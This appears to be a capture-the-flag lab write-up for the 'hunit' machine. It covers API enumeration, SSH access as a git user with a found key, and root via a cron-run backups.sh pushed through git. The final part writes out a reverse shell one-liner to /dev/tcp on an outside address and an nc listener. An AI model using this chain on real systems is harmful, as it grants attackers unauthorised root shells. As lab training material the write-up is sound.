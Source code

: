 ![](../attachment/d95704bbb43e017c0835a6a4c035f916.png)


Viewing source code for a haiku:
![](../attachment/59a4a4367b125a55772ccfe8808afa51.png)
We have an /api/ directory.
![](../attachment/e894203f5fe0db136735043a66fa21a8.png)

Now in http://192.168.190.125:8080/api/user/
![](../attachment/90aa6b67680b3a6a7696e4809feb2c33.png)

We can login as dademola:
![](../attachment/63371f6247ad784b9b60d77889ac758c.png)

running linpeas we notice cronjobs running as root:
![](../attachment/d7a4c621f878846fbf76185f2fdab77d.png)
```
find / -type d -name git-server -print 2>/dev/null
```
To find the folder:
![](../attachment/90516bbfbb25c4f72972f70afc3f1dd6.png)
We found it.
These are git backend files which are hard to work with. So cloning it:
```
git clone file:///git-server/
```
There is a placeholder for now:
![](../attachment/d181a045a30f9607fd4c6f081da8b320.png)
We can try to modify and push:
```
git config --global user.name "dademola"
git config --global user.email "dademola@hunit.(none)"
echo "ping -c 5 192.168.45.212" >> backups.sh
chmod +x backups.sh
git add .
git commit -m "pwn"
git push origin master
```
![](../attachment/bcd8006aa396e9a0d17c887f3c288bd6.png)
We aren't allowed to do this.

### Now trying as git user
In /home:
![](../attachment/b4c7321d766af3647f505740ce499f3f.png)![](../attachment/a251d9ed32a64af1a55fa457caac4e64.png)

Now we can try logging in as git user:
```
ssh -i id_rsa git@192.168.190.125 -p 43022
```
![](../attachment/98438d70a9352d0cc51e45fd7d1d628e.png)

Its a git-shell.
Using https://stackoverflow.com/questions/4565700/how-to-specify-the-private-ssh-key-to-use-when-executing-shell-command-on-git

```
GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.120.204:/git-server
```

Now we can modify the files:
![](../attachment/7abe8ad93a359a4ad07d07ae158c5157.png)

```
echo "sh -i >& /dev/tcp/192.168.45.212/8080 0>&1" >> backups.sh
chmod +x backups.sh
```
```
git config --global user.name "kali"
git config --global user.email "kali@kali.(none)"
git add .
git commit -m "pwned"
GIT_SSH_COMMAND='ssh -i ~/Documents/PG_Practice/hunit/id_rsa -p 43022 -o IdentitiesOnly=yes' git push origin master
```
![](../attachment/872ea73d59246dbaae55926e3c734c94.png)

Now running a listener:
```
sudo rlwrap nc -nlvp 8080
```
![](../attachment/9d0bbece7c2fe14749500e0872311073.png)
We have root access.
